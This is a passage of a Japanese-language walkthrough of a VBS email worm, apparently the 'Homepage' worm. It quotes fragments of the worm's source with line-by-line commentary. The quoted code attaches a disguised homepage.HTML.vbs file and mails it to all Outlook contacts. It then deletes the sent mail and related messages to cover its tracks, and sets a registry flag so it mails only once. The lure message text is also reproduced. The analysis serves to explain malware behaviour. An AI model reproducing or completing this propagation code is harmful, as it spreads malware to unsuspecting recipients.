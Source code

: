 Hi!

You've got to see this page! It's really cool ;O)

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

というようなメールが送られることでしょう。もちろん添付ファイル(ウイルス)
もつけられます。

65: Set Attachment\=Mail.Attachments
66: Attachment.Add Folder & "\homepage.HTML.vbs"
67: Mail.DeleteAfterSubmit \= True
68: If Mail.To <> "" Then
69: Mail.Send

　65:66:で添付ファイルを設定しています。この添付ファイルは以前tempフォル
ダ以下にコピーしたファイルですね。67:は送信した後にこのメール自体を削除す
るという命令でしょう。いやはや徹底してますね。そして68:で送信先アドレスが
記入されてるかを確認し、69:で送信しています。

70: WS.regwrite "HKCU\software\An\mailed", "1"
71: End If
72: Next
73: End If
74: Next
75: End if
76: End Function

　70:でレジストリを書き換えてます。つまり二度目にこのプログラムが実行され
るときはもうメールを送信（ばら撒く？）しなくてもいいですよ。ということで
しょう。なかなか良心的なウイルスです。(ぉぃ

　Mailit()全体の処理は登録されているメールアドレスすべてにウイルスメール
を送信するということです。ここは結構お決まりなパターンでどのVBSウイルスに
もついてる機能です（笑

　ではまた関数の呼び出し元に戻りましょう。

20: Set s\=CreateObject("Outlook.Application")
21: Set t\=s.GetNameSpace("MAPI")
22: Set u\=t.GetDefaultFolder(6)

　GetDefaultFolderは引数0 予定表、1 受信トレイ、2 送信トレイ、3 送信済み
アイテム、4 削除済みアイテム、5 連絡先、6 履歴、7 メモ、8 タスク、ですの
で、履歴フォルダを取得ですね。

23: For i\=1 to u.items.count
24: If u.Items.Item(i).subject\="Homepage" Then
25: u.Items.Item(i).close
26: u.Items.Item(i).delete
27: End If
28: Next

　履歴フォルダの中にあるメールでsubject\="Homepage"なものは削除するという
処理です。

29: Set u\=t.GetDefaultFolder(3)

